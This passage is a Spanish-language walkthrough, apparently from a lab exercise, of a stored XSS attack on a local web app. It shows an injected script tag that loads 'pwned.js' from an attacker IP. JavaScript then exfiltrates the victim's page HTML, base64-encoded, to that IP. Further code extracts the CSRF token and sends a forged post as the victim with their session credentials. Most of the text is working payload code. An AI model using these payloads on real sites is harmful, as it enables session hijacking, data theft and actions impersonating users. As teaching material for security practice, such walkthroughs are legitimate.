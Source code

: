 ### Parte 1: Cargando un Script Externo

**Código a inyectar en el post malicioso:**

```html
<script src="http://192.168.1.52/pwned.js"></script>
```

- Este script, combinado con el código siguiente, permite secuestrar la sesión y realizar publicaciones en nombre de la víctima.
    

### Parte 2: Recolección del CSRF Token y Envío del Post

**Código para capturar el CSRF token y enviar una solicitud GET (traza inicial):**

```javascript
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.send();

var response = req1.responseText;
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://192.168.1.52/?response=' + btoa(response));
req2.send();
```

- En este paso, el script muestra en base64 el código HTML del servidor, lo que permite obtener el valor del `csrf_token`.
    

**Instrucción para decodificar el HTML obtenido:**

```bash
echo -n "........codigo html obtenido en base64..............." | base64 -d; echo 
```

- Con esta instrucción se puede ver el código HTML, identificando el campo:
    

```html
<input name="_csrf_token" type="hidden" value="49985ee0-7392-4539-a815-62a3f3455579">
```

**Código para obtener y usar el CSRF token:**

```javascript
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data = "title=prueba+burpsuite&subtitle=burpsuite&text=prueba&_csrf_token=" + token;
req2.open('POST', 'http://localhost:10007/newgossip', false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```
